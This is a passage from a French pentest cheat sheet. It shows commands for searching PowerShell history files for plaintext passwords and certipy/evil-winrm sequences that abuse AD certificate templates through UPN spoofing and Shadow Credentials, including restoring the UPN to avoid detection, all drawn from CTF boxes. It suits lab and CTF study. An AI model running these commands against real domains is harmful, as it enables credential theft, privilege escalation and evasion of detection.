 ```powershell
# Pour un utilisateur spécifique
Get-ChildItem -Path C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt -Force

# Pour tous les profils utilisateurs
Get-ChildItem -Path C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt -Force
```

Ce fichier peut contenir des commandes PowerShell exécutées précédemment, y compris des commandes avec des mots de passe en clair. Vérifiez toujours ce fichier lors de vos recherches d'informations d'identification.
## Exploitation des templates vulnérables tirée de CTFs réels
#### Usurpation d'identité par UserPrincipalName (UPN) (Certified)

Si un utilisateur a des droits sur un autre utilisateur, il peut modifier son UPN pour obtenir un certificat administrateur:

```bash
# Modifier l'UPN d'un utilisateur pour le faire correspondre à celui de l'administrateur
certipy account update -u utilisateur@domaine -hashes <hash> -user cible -upn administrator

# Demander un certificat avec le template vulnérable
certipy req -username utilisateur@domaine -hashes <hash> -ca CERT-CA -template Template -dc-ip 10.10.10.x -pfx admin.pfx

# Restaurer l'UPN d'origine (important pour éviter la détection)
certipy account update -u utilisateur@domaine -hashes <hash> -user cible -upn cible@domaine

# Utiliser le certificat pour obtenir un TGT d'administrateur
certipy auth -pfx admin.pfx

# Passer le hash pour une session administrative
evil-winrm -i 10.10.10.x -u administrator -H <hash obtenu>
```

Cette technique exploite le fait que la CA vérifie l'UPN dans le certificat, pas l'utilisateur réel demandant le certificat. En modifiant temporairement l'UPN d'un utilisateur contrôlé pour qu'il corresponde à celui de l'administrateur, nous pouvons obtenir un certificat pour l'administrateur.
#### Shadow Credentials pour élévation de privilèges (Certified)
Si vous avez des droits sur un objet utilisateur, vous pouvez ajouter une clé alternative pour l'impersonation:
```bash
# Ajouter une clé DACL et générer un certificat
certipy shadow auto -u utilisateur@domaine -hashes <hash> -account cible

# Résultat: hachage NTLM de l'utilisateur cible
# Peut être utilisé pour l'authentification Pass-the-Hash
```